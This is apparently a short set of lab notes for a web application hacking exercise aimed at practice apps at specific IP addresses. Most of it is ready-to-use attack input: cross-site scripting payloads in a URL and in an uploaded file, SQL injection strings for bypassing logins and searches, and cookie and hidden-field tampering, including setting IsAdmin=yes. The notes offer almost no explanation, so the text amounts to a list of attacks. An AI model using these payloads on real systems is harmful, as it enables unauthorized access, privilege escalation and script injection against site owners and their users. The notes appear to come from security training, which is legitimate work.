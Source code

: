 	
Open a new tab in firefox and try this:
	http://54.213.131.105/Searchresult.aspx?%u003cscript>prompt(123)%u003c/script>=ScriptName


	xss_upload.txt (Upload Bulk Order)
	<script>alert(123);</script>


Login Box:

	' or 1=1 or ''='
	anything



Tamper Data: (notice 2 session IDs)

	AcmeTrading=a4b796687b846dd4a34931d708c62b49; 		SessionID is md5
	IsAdmin=yes; 
	ASP.NET_SessionId=d10dlsvaq5uj1g550sotcg45



Profile - Detail	(tamper data)
	Disposition: form-data; name="ctl00$contentMiddle$HiddenField1"\r\n\r\njoe\r\n
	joe|set







###########################################################
# Attacking an Oracle/JSP based WebApp with SQL Injection #
###########################################################





http://54.69.156.253:8081/bookcompany/


user:	a' OR 'a'='a
pass:	a' OR 'a'='a







http://54.69.156.253:8081/bookcompany/author.jsp?id=111


[ Search by Username ]	Joe' OR 'a'='a












http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1
